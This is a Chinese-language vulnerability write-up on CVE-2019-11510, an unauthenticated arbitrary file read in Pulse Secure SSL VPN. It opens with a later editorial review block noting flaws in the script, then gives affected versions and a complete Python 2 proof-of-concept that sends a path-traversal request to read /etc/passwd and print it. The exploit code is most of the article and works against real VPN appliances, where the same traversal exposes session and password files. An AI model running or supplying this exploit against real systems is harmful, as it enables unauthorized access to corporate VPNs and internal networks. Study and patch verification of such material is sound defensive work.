

# （CVE-2019-11510）Pulse Secure SSL VPN 任意文件读取

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Pulse Connect Secure
- 本文讨论：CVE-2019-11510
- 版本、权限与配置前提：匿名Web可达，PCS8.1/8.2/8.3/9.0分支；Python2脚本
- 资料类型：VPN文件读取PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 版本全分支RX不精确，8.1R15.1可能补丁边界须核，不能无上限列
- urlparse.hostname重建URL丢端口，非默认端口误测；requests可能归一化../但仅说明curl path-as-is
- 未设timeout却捕获ReadTimeout，异常/阴性不可作为安全证明
- 无官方来源；图片后残余路径
- 已落实的文本修订：补齐文章标题。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 请求归一化行为、精确版本及敏感文件权限待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

（CVE-2019-11510）Pulse Secure SSL VPN 任意文件读取
===================================================

一、漏洞简介
------------

Pulse Secure Pulse Connect Secure（又名 PCS，前称 Juniper Junos
Pulse）是美国 Pulse Secure 公司的一套 SSL VPN 解决方案。爆发的
CVE-2019-11510
该漏洞是由于所引入的一项通过浏览器访问其他端口的新功能缺乏安全限制所导致的，任意攻击者都可在未经身份验证的情况下利用该漏洞，读取系统敏感文件，获取
session、明文密码等敏感信息，从而非法入侵并操控
VPN，从而进一步威胁企业内网服务。

二、漏洞影响
------------

Pulse Secure PCS 9.0RX

Pulse Secure PCS 8.3RX

Pulse Secure PCS 8.2RX

Pulse Secure PCS 8.1R15.1

三、复现过程
------------

### poc

    Pcs_Ssl_Vpn_CVE_2019_11510@Coco413.py

PulseSecureSSLVPN任意文件读取/media/rId25.png)

    # -*- coding:utf-8 -*-
    # !/usr/bin/env python

    import sys
    import urlparse
    import requests
    import warnings
    import traceback

    reload(sys)
    sys.setdefaultencoding('utf-8')
    requests.packages.urllib3.disable_warnings()
    warnings.filterwarnings("ignore")

    def CVE_2019_11510(base_url):
        try:
            payloads, keywords = "/dana-na/../dana/html5acc/guacamole/../../../../../../../etc/passwd?/dana/html5acc/guacamole/", "root:x"
            r = requests.get(base_url + payloads, verify=False)
            r.close()
            if keywords in r.text:
                print "[✓] Found CVE-2019-11510 Vuln address(curl --path-as-is -s -k <target>):\n{}\n{}".format(
                    base_url + payloads, r.content)
            else:
                print "[x] Not Found Vuln!"
        except requests.exceptions.ConnectionError:
            pass
        except requests.ReadTimeout:
            pass
        except:
            traceback.print_exc()

    if __name__ == '__main__':
        if len(sys.argv) == 1:
            print '[+] Tip: python Pcs_Ssl_Vpn_CVE_2019_11510@Coco413.py <url>'
            sys.exit(0)
        url = sys.argv[1]
        CVE_2019_11510(urlparse.urlparse(url).scheme + "://" + urlparse.urlparse(url).hostname)
